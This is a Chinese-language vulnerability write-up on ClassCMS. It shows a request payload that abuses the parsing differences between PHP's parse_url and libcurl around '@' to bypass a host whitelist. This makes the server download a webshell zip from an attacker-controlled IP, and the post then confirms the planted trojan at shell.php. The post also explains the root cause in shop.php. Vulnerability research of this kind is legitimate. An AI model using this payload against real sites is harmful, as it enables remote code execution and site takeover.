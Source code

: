 上传之前创建的shell.zip<br/>`classhash=shell&amp;url=http://@192.168.12.144:80@classcms.com/shell.zip&amp;csrf=b472e230`<br/> 直接修改数据包后放包也可以<br/>  

<br/> 把修改后的数据包提交<br/>  

<br/> 提交成功

访问`http://192.168.12.144/class/shell/shell.php`<br/>  

<br/> 可以看到木马上传成功了，在本地也可以看到下载的shell.zip文件

### 漏洞成因

经白盒测试发现在/class/shop/shop.php中<br/> 通过全局搜索，“下载完成”定位到此处

<br/> 一处为在`downloadClass`函数中一处在`upgradeClass`函数中，观察功能显然是在`downloadClass`中<br/>  

<br/> 在`this(当前文件shop.php)-&gt;download`函数下,定位到关键函数`download`<br/>  

<br/>  

<br/> 函数首先获取了默认允许的`host`，在`this(前文件下)-&gt;defaultHost`函数中<br/> 定位函数defaultHost

---


<br/> 只允许 classcms.com;classcms.uuu.la<br/> 然后将我们传入的url (这里是`http://http://192.168.12.144/shell.zip`) 通过parse_url函数解析后在判断是否是在数组中<br/> 我们的攻击url也就是down在了这里，那么目标就是绕过这个判断然后执行接下来的curl命令​​​​​​​

```
if(!isset($checkurl['host']) || !in_array($checkurl['host'],$hosts)) {

Return false;

}
```

前一个条件存在是肯定满足的，那么只需要让经过parse_url解析过的host键值和数组相等即可

这里利用php中的parse_url函数和lib_curl对url的解析差异,导致了对host的过滤失效来进行绕过

php-curl拓展解析的url host在第首个@之后<br/> 而parse_url则是最后一个@之后<br/> 所以构造处payload

`http://@http://192.168.12.144:80@classcms.com/shell.zip`

**没看够~？欢迎关注！**
